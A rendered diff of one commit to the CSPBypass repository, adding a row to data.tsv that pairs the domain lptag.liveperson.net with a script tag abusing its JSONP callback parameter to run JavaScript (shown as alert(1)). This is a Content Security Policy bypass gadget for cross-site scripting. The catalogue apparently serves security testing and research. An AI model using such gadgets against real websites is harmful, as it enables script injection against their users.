

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added lptag.liveperson.net

```diff
--- a/data.tsv
+++ b/data.tsv
+row 73: lptag.liveperson.net | <script src="https://lptag.liveperson.net/lptag/api/account/1/configuration/applications/taglets/.jsonp?v=2.0&cb=alert(1)-"></script>
```
